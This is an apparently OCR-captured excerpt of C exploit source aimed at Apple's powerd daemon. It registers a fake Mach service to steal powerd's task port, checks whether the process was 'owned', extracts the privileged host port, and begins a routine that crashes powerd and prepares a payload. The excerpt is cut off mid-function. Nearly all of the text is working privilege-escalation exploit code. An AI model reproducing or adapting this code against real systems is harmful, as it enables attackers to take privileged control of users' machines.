 ```c
    printf("[+] Starting a fake service with name %s\n",FAKE_SERVICE_NAME);

    setup_service_listener();
    strt_exp = 1;

#if 0
    printf("waiting for upcoming messages \n");
#endif
    for(;;) {
        kr = mach_msg(&msg.hdr,MACH_RCV_MSG,
                      0,
                      sizeof(msg),
                      fake_service_port,
                      0,
                      MACH_PORT_NULL);
        if (kr == KERN_SUCCESS) {
            //printf("[+] We got powerd task port 0x%x !!\n",msg.port.name);
            powerd_task_port = msg.port.name;

            break;
        }

    }
    pthread_mutex_unlock(&powerd_task_lock);
    //pthread_cancel(pthread_self());
    return NULL;
}

// this checks if we owned powerd process, if yes, show off powerd's task port and host_priv
int check_uexploit_success()
{
    sleep(3);
    if (powerd_task_port == MACH_PORT_NULL) {
        printf("[-] Looks like the exploit failed\n");
        pthread_mutex_lock(&powerd_task_lock);
        return 0;
    }

    printf("[+] We got powerd task port 0x%x !!\n",powerd_task_port);
    mach_port_t p = 0;
    int kr = task_get_special_port(powerd_task_port,TASK_HOST_PORT,&host_priv);
    CHECK_MACH_ERR(kr, "get_host_special_port");
    printf("[+] We have host_priv port 0x%x\n",host_priv);
    return 1;
}
int do_powend(void)
{
    //psizeP = 0x30000;
    uint64_t diff = 0;
    int ps_id = 0;
    /*
#ifdef LOCAL_EXP
    do_prepare_payload();
#endif

    do_crash_powerd();
    do_prepare_data();

    do_prepare_payload();
    */
    collected = 10;
    condidates = collect_user_memory(collected);

```
